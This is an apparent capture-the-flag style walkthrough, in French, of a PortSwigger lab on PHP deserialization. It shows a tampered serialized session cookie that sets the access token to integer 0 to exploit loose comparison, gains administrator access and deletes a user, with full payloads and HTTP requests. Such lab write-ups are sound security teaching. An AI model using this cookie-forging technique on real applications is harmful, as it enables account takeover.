 # Lab

https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types

## Solution

Quand on se connecter avec le compte `wiener:peter`, on obtient un cookie de session : `Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJqajFhNmxuanNpNWNoNWxic3VlY21rNmVwZmkwcDhrZiI7fQ%3d%3d`

La chaine de caractères est encodée en base64, on peut la décoder :

```bash
$ echo "Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJqajFhNmxuanNpNWNoNWxic3VlY21rNmVwZmkwcDhrZiI7fQ==" | base64 -d
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"jj1a6lnjsi5ch5lbsuecmk6epfi0p8kf";}
```

Si on modifie la valeur de l'username pour accéder au compte `administrator` on a cette erreur :

```bash
$ echo 'O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";s:32:"jj1a6lnjsi5ch5lbsuecmk6epfi0p8kf";}' | base64
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6ImpqMWE2bG5qc2k1Y2g1bGJzdWVjbWs2ZXBmaTBwOGtmIjt9Cg==
```

```http
GET /my-account?id=wiener HTTP/2
Host: 0a3f003d044ba06283a6854a002700ee.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6ImpqMWE2bG5qc2k1Y2g1bGJzdWVjbWs2ZXBmaTBwOGtmIjt9Cg%3d%3d
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://0a3f003d044ba06283a6854a002700ee.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```

```http
<div class="container is-page">
    <header class="navigation-header">
    </header>
    <h4>Internal Server Error</h4>
        <p class=is-warning>PHP Fatal error:  Uncaught Exception: (DEBUG: $access_tokens[$user-&gt;username] = xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx, $user-&gt;access_token = jj1a6lnjsi5ch5lbsuecmk6epfi0p8kf, $access_tokens = [xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx,xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx,xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx]) Invalid access token for user administrator in /var/www/index.php:8
        Stack trace:
        #0 {main}
            thrown in /var/www/index.php on line 8
    </p>
</div>
```

L'erreur nous indique que l'access token est invalide pour l'utilisateur `administrator`.

On peut faire une supposition et penser que le contrôle de l'access token se fait en PHP via loose comparison `==` au lieu de strict comparison `===`, par exemple :

```php
if ($user->access_token == $access_tokens[$user->username]) {
    // ...
}
```

Dans ce cas, si on remplace le `access_token` par le chiffre `0` on devrait pouvoir accéder au compte `administrator`.

```bash
$ echo 'O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}' | base64
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9Cg==
```

```http
GET /my-account?id=administrator HTTP/2
Host: 0a3f003d044ba06283a6854a002700ee.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9Cg%3d%3d
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://0a3f003d044ba06283a6854a002700ee.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```

La requête passe et nous donne accès au compte administrateur, on peut maintenant supprimer le compte de Carlos.

```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a3f003d044ba06283a6854a002700ee.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9Cg%3d%3d
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://0a3f003d044ba06283a6854a002700ee.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```
